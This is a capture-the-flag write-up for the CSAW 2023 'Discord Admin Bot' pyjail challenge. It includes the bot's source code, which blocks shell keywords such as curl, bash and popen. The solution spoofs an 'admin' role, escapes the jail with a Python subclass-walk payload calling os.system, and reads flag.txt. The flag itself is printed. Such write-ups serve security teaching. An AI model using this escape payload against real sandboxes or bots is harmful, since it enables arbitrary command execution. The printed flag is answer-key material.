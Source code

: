 # Discord Admin Bot
> Join discord and get the flag.

> discord.gg/csaw23 discord.gg/csaw23 discord.gg/csaw23 discord.gg/csaw23 discord.gg/csaw23 discord.gg/csaw23 discord.gg/csaw23 discord.gg/csaw23 discord.gg/csaw23 discord.gg/csaw23

## About the Challenge
There is a discord bot called `Kalkulatoor`

![bot](images/bot.png)

And we got some the source code too. Here is the bot source code

```py
#############################################
# Author: Krishnan Navadia
# This is main working file for this chal
#############################################

import discord
from discord.ext import commands, tasks
import subprocess

from settings import ADMIN_ROLE
import os
from dotenv import load_dotenv
from time import time

load_dotenv()

TOKEN = os.getenv("TOKEN")

intents = discord.Intents.default()
intents.messages = True
bot = commands.Bot(command_prefix="!", intents=intents)

bot.remove_command('help')

SHELL_ESCAPE_CHARS = [":", "curl", "bash", "bin", "sh", "exec", "eval,", "|", "import", "chr", "subprocess", "pty", "popen", "read", "get_data", "echo", "builtins", "getattr"]

COOLDOWN = []

def excape_chars(strings_array, text):
    return any(string in text for string in strings_array)

def pyjail(text):
    if excape_chars(SHELL_ESCAPE_CHARS, text):
        return "No shells are allowed"

    text = f"print(eval(\"{text}\"))"
    proc = subprocess.Popen(['python3', '-c', text], stdout=subprocess.PIPE, preexec_fn=os.setsid)
    output = ""
    try:
        out, err = proc.communicate(timeout=1)
        output = out.decode().replace("\r", "")
        print(output)
        print('terminating process now')
        proc.terminate()
    except Exception as e:
        proc.kill()
        print(e)

    if output:
        return f"```{output}```"


@bot.event
async def on_ready():
    print(f'{bot.user} successfully logged in!')

@bot.command(name="flag", pass_context=True)
async def flag(ctx):
    admin_flag = any(role.name == ADMIN_ROLE for role in ctx.message.author.roles)

    if admin_flag:
        cmds = "Here are some functionalities of the bot\n\n`!add <number1> + <number2>`\n`!sub <number1> - <number2>`"
        await ctx.send(cmds)
    else:
        message = "Only 'admin' can see the flag.😇"
        await ctx.send(message)

@bot.command(name="add", pass_context=True)
async def add(ctx, *args):
    admin_flag = any(role.name == ADMIN_ROLE for role in ctx.message.author.roles)
    if admin_flag:
        arg = " ".join(list(args))
        user_id = ctx.message.author.id
        ans = pyjail(arg)
        if ans: await ctx.send(ans)
    else:
        await ctx.send("no flag for you, you are cheating.😔")

@bot.command(name="sub", pass_context=True)
async def sub(ctx, *args):
    admin_flag = any(role.name == ADMIN_ROLE for role in ctx.message.author.roles)
    if admin_flag:
        arg = " ".join(list(args))
        ans = pyjail(arg)
        if ans: await ctx.send(ans)
    else:
        await ctx.send("no flag for you, you are cheating.😔")


@bot.command(name="help", pass_context=True)
async def help(ctx, *args):
    await ctx.send("Try getting `!flag` buddy... Try getting flag.😉")


@bot.event
async def on_command_error(ctx, error):
    if isinstance(error, commands.CommandNotFound):
        await ctx.send("Try getting `!flag` buddy... Try getting flag.😉")
    else:
        print(f'Error: {error}')


bot.run(TOKEN)
```

This is a Pyjail challenge, but we need to have an admin role to execute python commands

## How to Solve?
First, we need to invite the bot on our discord server by using accessing this URL

https://discord.com/oauth2/authorize?client_id=1151613133027295232&permissions=8&scope=bot

Hmmm, how do you know if the bot id was `1151613133027295232`? You can use developer mode and then right click the bot profile and press `Copy User ID` button

![userid](images/userid.png)

To use the bot, we also need to create a custom discord role called `admin` and assign it to our account. And then we can use command `!add` or `!sub` to execute some python command

```py
@bot.command(name="add", pass_context=True)
async def add(ctx, *args):
    admin_flag = any(role.name == ADMIN_ROLE for role in ctx.message.author.roles)
    if admin_flag:
        arg = " ".join(list(args))
        user_id = ctx.message.author.id
        ans = pyjail(arg)
        if ans: await ctx.send(ans)
    else:
        await ctx.send("no flag for you, you are cheating.😔")

@bot.command(name="sub", pass_context=True)
async def sub(ctx, *args):
    admin_flag = any(role.name == ADMIN_ROLE for role in ctx.message.author.roles)
    if admin_flag:
        arg = " ".join(list(args))
        ans = pyjail(arg)
        if ans: await ctx.send(ans)
    else:
        await ctx.send("no flag for you, you are cheating.😔")
```

Because there is a list of blacklisted characters, we can still bypass it by running this command

```
!add print(().__class__.__base__.__subclasses__()[133].__init__.__globals__['system']('ls'))
```

![ls](images/ls.png)

And then read the flag by running `cat flag.txt` command

![flag](images/flag.png)

```
csawctf{Y0u_4r3_th3_fl4g_t0_my_pyj4il_ch4ll3ng3}
```